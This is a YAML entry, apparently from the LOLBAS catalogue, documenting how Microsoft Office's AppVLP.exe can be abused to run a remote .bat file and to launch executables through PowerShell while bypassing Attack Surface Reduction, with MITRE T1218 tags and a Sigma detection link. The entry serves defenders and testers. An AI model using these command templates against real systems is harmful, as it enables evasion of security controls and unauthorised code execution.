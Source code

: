 ```yaml
---
Name: Appvlp.exe
Description: Application Virtualization Utility Included with Microsoft Office 2016
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: AppVLP.exe {PATH_SMB:.bat}
    Usecase: Execution of BAT file hosted on Webdav server.
    Description: Executes .bat file through AppVLP.exe
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 10 w/Office 2016
    Tags:
      - Execute: CMD
  - Command: AppVLP.exe powershell.exe -c "$e=New-Object -ComObject shell.application;$e.ShellExecute('{PATH:.exe}','', '', 'open', 1)"
    Usecase: Local execution of process bypassing Attack Surface Reduction (ASR).
    Description: Executes powershell.exe as a subprocess of AppVLP.exe and run the respective PS command.
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 10 w/Office 2016
    Tags:
      - Execute: EXE
Full_Path:
  - Path: C:\Program Files\Microsoft Office\root\client\appvlp.exe
  - Path: C:\Program Files (x86)\Microsoft Office\root\client\appvlp.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_lolbin_appvlp.yml
Resources:
  - Link: https://github.com/MoooKitty/Code-Execution
  - Link: https://twitter.com/moo_hax/status/892388990686347264
  - Link: https://enigma0x3.net/2018/06/11/the-tale-of-settingcontent-ms-files/
  - Link: https://securityboulevard.com/2018/07/attackers-test-new-document-attack-vector-that-slips-past-office-defenses/
Acknowledgement:
  - Person: fab
    Handle: '@0rbz_'
  - Person: Will
    Handle: '@moo_hax'
  - Person: Matt Wilson
    Handle: '@enigma0x3'
---
```

